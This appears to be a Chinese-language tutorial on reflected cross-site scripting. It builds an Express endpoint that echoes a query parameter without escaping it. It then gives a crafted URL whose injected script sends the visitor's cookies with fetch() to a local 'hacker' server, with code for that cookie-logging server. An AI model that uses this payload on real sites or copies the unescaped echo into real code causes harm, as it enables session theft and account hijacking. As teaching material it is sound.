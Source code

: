 ### 1 XSS
* XSS全称叫跨站脚本攻击（Cross Site Scripting），目的是把script脚本注入到网页中在浏览器执行该脚本
#### 1.1 反射型
* 用express写个简单的api
```js
const express = require("express");
const app = express();
app.get("/article", function (req, res) {
  const { type } = req.query;
  res.send(`您查询的文章类型是:${type}`);//根据url中的type参数返回
});
app.listen(4000, () => {
  console.log("listening http://localhost:4000");
});
```
* 正常情况是这样的，在URL中传递查询参数type，后台处理后返回结果

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/4638eb9c24cd466ea53bdbdb6ae58d9a~tplv-k3u1fbpfcp-watermark.image?)
* 但是如果在URL传入script脚本

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/5be1ef5ed3724fbe9be1167003dc7b0e~tplv-k3u1fbpfcp-watermark.image?)
* 这时候后台把结果返回到浏览器时会执行这个脚本,这就成功注入了script脚本，完成了一次反射型XSS攻击

![image.png](https://p6-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/fb8f641dad314a1ab6d8365dad61e6e4~tplv-k3u1fbpfcp-watermark.image?)
![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/166ac6ac291b461092927c948e9b2990~tplv-k3u1fbpfcp-watermark.image?)

* 能成功执行注入的script脚本那就可以干很多事了，比如下面这个链接，他会获取当前点击用户的cookie然后发送到黑客的服务器上
```
http://localhost:4000/article?type=%3Cscript%3Efetch(`http://localhost:4001/cookie?cookie=${document.cookie}`)%3C/script%3E
```
```js
const express = require("express");
const app = express();
const app2 = express();
app.get("/article", function (req, res) {
  const { type } = req.query;
  res.send(`您查询的文章类型是:${type}`);
});
app.listen(4000, () => {
  console.log("listening http://localhost:4000");
});
app2.get("/cookie", function (req, res) {
  const { cookie } = req.query;
  console.log(`盗取的cookie:${cookie}`);
  res.send();
});
app2.listen(4001, () => {
  console.log("黑客网站盗取cookie listening http://localhost:4001");
});
```
